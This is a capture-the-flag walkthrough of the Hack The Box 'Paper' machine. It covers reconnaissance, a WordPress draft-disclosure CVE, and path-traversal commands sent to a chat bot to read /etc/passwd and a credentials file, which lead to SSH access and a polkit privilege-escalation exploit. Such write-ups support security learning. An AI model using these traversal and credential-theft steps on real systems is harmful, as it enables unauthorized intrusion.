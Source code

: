 ```yaml
---
description: Paper Machine Walkthrough | Linux - easy
---
```


# Paper

![](../.gitbook/assets/Paper.png)

#### <mark style="color:yellow;">Table Of Content</mark>

* [Information Gathering](paper.md#information-gathering)
* [Backend-server](paper.md#undefined)
* [Disclosed Secrets](paper.md#disclosed-secrets)
* [Bot = LFI](paper.md#bot-lfi)
* [Privilege Escalation](paper.md#privilege-escalation)



### <mark style="color:orange;">Information Gathering</mark>

`nmap -sC -sV -A 10.10.11.143`

![](<../.gitbook/assets/image (6).png>)

We got 3 open ports ( 22, 80, 443 )

Try to visit http://10.10.11.143 i found HTTP Server Test Page running on Apache 2.4.37

![](<../.gitbook/assets/image (13).png>)

So, the First thing that came to my mind was to enumerate any sensitive directories and files

1. run dirb on [http://10.10.11.143/](http://10.10.11.143)
2. open burpsuit and see anything interesting ( and it was indeed )

### <mark style="color:orange;">Backend-Server</mark>

![](<../.gitbook/assets/image (15).png>)

The target website returns `X-Backend-Server` Include potential internal / hide IP Header of address or hostname. By exposing these values, An attacker may bypass the security agent and access the host directly

* Add `office.paper` to `/etc/hosts`

`10.10.11.143 office.paper`



### <mark style="color:orange;">Disclosed Secrets</mark>

visit **http://office.paper** and notice that [**Wappalyzer** ](https://www.wappalyzer.com)was detected that it runs **`WordPress CMS`** version`5.2.3`

![](<../.gitbook/assets/image (4).png>)

Search for exploit and found [CVE-2019-17671：Wordpress Unauthorized access vulnerability recurrence](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671)

* So we can use `http://office.paper/?static=1`

![Secret](<../.gitbook/assets/secret (1).png>)

```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

Found a secret registration page on http://chat.office.paper/register/8qozr226AhkCHZdyY

So now navigate on this website but remember to add it in /**etc/hosts**

### <mark style="color:orange;">**Bot = LFI**</mark>&#x20;

![](<../.gitbook/assets/image (10).png>)

**Complete this registration form and login**

After a little bit of time, a pop-up will appear with a chat general. Now we can see that this bot use his own command like this:

![](<../.gitbook/assets/image (16).png>)

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

we can’t talk in this chat because is “read only” so, let’s communicate with the bot privately and try to use this command.

```
recyclops file ../../../../../etc/passwd
```

After that we can enumerate the user and we will find the correct password:

```
recyclops file ../hubot/.env

export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=<REDACTED>
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Now we can login in ssh!! with this password! and Get User Flag :tada::smile:

`$ ssh REDACTED@10.10.11.143`

```
[<REDACTED>@paper ~]$ cat user.txt 
FLAG HERE :)
```

### <mark style="color:orange;">Privilege Escalation</mark>

Now, we need to scan machine and try to get root access. I use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to do internal scan

![](<../.gitbook/assets/image (14).png>)

Found that the machine is vulnerable to [CVE-2021-3560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3560)-Polkit-Privilege-Esclation. It allows non privileged users to use DBus Call privileged methods.

**CVE-2021-3560 POC:** [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)

* Upload py Script and run

![](<../.gitbook/assets/image (7).png>)

And .. Boom we are **Root**

****

![](https://media.giphy.com/media/28IVbVe3oQpCBXF37f/giphy.gif)

****

****

> **Thanks for reading**
